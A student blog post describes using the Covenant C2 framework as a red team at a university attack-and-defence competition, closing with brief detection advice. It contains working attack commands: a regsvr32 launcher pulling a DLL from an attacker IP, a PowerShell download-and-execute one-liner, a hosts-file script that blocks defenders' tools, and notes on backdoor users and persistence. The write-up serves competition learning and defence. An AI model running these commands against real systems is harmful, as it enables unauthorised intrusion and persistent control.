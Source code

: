```yaml
---
layout: post
title: Power of Covenant
subtitle: Deploying Covenant
tags: 
    - redteam
    - windows
    - c2
    - security
    - powershell
    - docker
comments: true
published: true
image: /img/pwnboard_image.PNG
---
```


# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](/img/plan.png)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

![Easy-Deployment](/img/easy_deployment.png)

In reality we would want to tack on -d when composing Covenant
to background it. 

Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

![Launcher](/img/launcher.png)

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](/img/example_powershell.png)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](/img/pwnboard.PNG)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](/img/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](/img/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](/img/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](/img/procexp_regsvr.PNG)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](/img/http_traffic.PNG)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](/img/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)